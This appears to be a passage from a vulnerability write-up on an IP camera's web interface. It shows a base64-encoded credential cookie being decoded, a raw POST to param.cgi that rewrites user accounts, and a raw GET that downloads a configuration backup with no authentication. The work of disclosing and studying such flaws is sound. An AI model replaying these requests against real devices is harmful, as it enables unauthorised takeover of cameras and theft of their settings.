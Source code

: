 indicating a successful login, which sets a cookie:
```
Cookie: language=en; username=YWRtaW4%3D; password=YWRtaW4%3D; authLevel=255
```

so 8 characters, final being `=`, likely padding giving us `YWRtaW4=`. a quick base64 decode shows that we're effectively passing passwords in the clear:

```
$ echo YWRtaW4= | base64 -dD
Jul 16 14:15:32 mba base64[75917] <Info>: Read 9 bytes.
Jul 16 14:15:32 mba base64[75917] <Info>: Decoded to 5 bytes.
Jul 16 14:15:32 mba base64[75917] <Info>: Wrote 5 bytes.
admin
```

```
POST /web/cgi-bin/hi3510/param.cgi HTTP/1.1
Host: 192.168.42.24
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.42.24/web/user.html
Cookie: language=en; username=YWRtaW4%3D; password=YWRtaW4%3D; authLevel=255
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 283

cmd=updateuser&cururl=http%3A%2F%2F192.168.42.24%2Fweb%2Fuser.html&user0=admin%3Aadmin%3A255%3AAdmin&user1=guest%3Aguest%3A3%3AGuest&user2=root%3Afoobarbaz%3A3%3ANormal&user3=%3A%3A3%3ANormal&user4=%3A%3A3%3ANormal&user5=%3A%3A3%3ANormal&user6=%3A%3A3%3ANormal&user7=%3A%3A3%3ANormal
```

```
GET /tmpfs/config_backup.bin HTTP/1.1
Host: 192.168.42.24
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.42.24/web/initializemain.html
Connection: keep-alive

HTTP/1.1 200 OK
Server: thttpd/2.25b 29dec2003
Content-Type: application/octet-stream
Date: Sat, 16 Jul 2016 18:03:12 GMT
Last-Modified: Sat, 16 Jul 2016 18:03:12 GMT
Accept-Ranges: bytes
Connection: close
Content-Length: 25098
```

getting the backup file from the web UI doesn't require/pass a cookie at all
